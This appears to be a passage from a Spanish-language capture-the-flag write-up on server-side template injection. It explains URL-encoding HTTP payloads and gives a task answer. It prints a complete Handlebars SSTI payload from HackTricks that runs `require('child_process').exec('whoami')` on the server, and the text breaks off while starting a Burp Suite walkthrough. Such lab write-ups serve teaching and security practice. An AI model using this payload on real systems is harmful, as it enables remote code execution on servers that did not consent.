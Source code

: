 Esto permite que los servidores interpreten correctamente los datos sin errores de sintaxis en el protocolo.

### 📥 Análisis:

- Cuando se desea enviar caracteres especiales como `{`, `}`, espacios, etc., en un HTTP request, estos deben ser codificados para evitar errores en la transmisión.
    
- El tipo de codificación más habitual es **URL Encoding** o **Percent Encoding**.
    
- Por ejemplo, el caracter `{` se convierte en `%7B`, y `}` en `%7D`.
    
### 📌 Conclusión:

Para mantener la integridad de los datos en el cuerpo de una petición HTTP, especialmente en pruebas de SSTI u otros ataques, usamos **URL encoding**.


## ✅ Task 8: ¿Qué hacer con el error "not defined" al enviar payloads de HackTricks?

🌠 **Respuesta esperada**: `require`

### 🔍 Análisis detallado:

Estamos intentando aprovechar la SSTI detectada con payloads avanzados extraídos de HackTricks:

```bash
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```

### 🧲 Cómo se prueba paso a paso:

1. **Abrimos Burp Suite** y vamos al tab **Decoder**:
    
    - Pegamos el siguiente payload en texto
